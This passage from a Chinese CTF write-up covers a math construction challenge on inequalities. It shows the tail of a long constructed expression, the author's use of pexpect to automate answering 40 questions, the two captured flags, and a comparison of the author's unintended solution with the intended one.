2*3**(1/2)*(3*(1/(3+x*x))-(1-x*x/3)*(1+(x*x/3)**2)*(1+(x*x/3)**4)*(1+(x*x/3)**8)*(1+(x*x/3)**16)*(1+(x*x/3)**32)+129*x**128*1336924087160732342156363814611099537023584771936953706677720480762397655142327936/1287978018036015777334466551354189481340554850313375/3**63)-65*x**64*
```

长度为 276 和 278。经测试，最后一个问题生成的分数长度大约是 120，所以字符限制正好够用。

人工复制粘贴回答 40 个问题实在是不太好玩，因为后面分数会越来越长，而且一旦错一个就要从头开始。因此，我用 `pexpect` 写了个自动交互器。[代码见此处](./qed/auto-interact.py)。

### Flags

```plain
flag{y0u_ar3_g0od_at_constructi0n_3cb986bca8}
flag{y0u_ar3_7he_Ramanujan_0f_in3quality_b8540b72e5}
```

You are good at construction!\
有计算工具，多试试就是最好的构造方法

You are the Ramanujan of inequality.

再看一眼题面。要优雅，要显然。真的优雅和显然

### 其他做法

#### 预期解

预期解使用了一个更加优美且恰好符合 $g(x)$ 要求的函数作为 $g(x)$，因此不再需要 Taylor 展开，但是仍然不能避免函数中出现一个很长的 Magic number（不过比这里的要短一些）。详情见官方题解仓库。

要知道这个函数，需要做一些训练有素的搜索工作（当然如果你以前知乎就刷到过也行）。我之所以将我的解法标记为非预期解，是因为这个解法不需要太多网络搜索技巧或者知道太多冷门知识，只需要数学分析的基础知识加上一些尝试就可以了。

### 花絮：当你试图问 LLM 数学问题



## #EOF

[👉 阅读第三部分](../part-3/README.md)
